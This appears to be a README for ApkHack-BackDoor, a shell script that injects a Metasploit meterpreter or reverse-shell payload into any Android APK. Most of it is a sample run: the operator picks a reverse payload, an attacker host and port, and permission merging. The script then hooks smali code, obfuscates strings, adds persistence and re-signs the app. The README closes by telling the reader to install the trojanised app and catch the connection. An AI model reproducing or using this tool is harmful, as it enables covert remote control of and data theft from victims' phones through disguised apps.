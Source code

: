 # ApkHack-BackDoor
ApkHack-BackDoor is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of any Linux distribution, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for only educational purposes.

Usage:

```
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor# ./ApkHack-BackDoor.sh DarkHub.apk 
	    _    ____  _  __  _   _    _    ____ _  __
	   / \  |  _ \| |/ / | | | |  / \  / ___| |/ /
	  / _ \ | |_) | ' /  | |_| | / _ \| |   | ' / 
	 / ___ \|  __/| . \  |  _  |/ ___ \ |___| . \ 
	/_/   \_\_|   |_|\_\ |_| |_/_/   \_\____|_|\_\
										BitWalls-ops DarkHub
       

[*] Running ApkHack-BackDoor.sh v2.0.4a on Tue May 9 17:13:37 EDT 2023
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 107.4.9.31
[?] Please enter an LPORT value: 8080
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/dark/hub/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
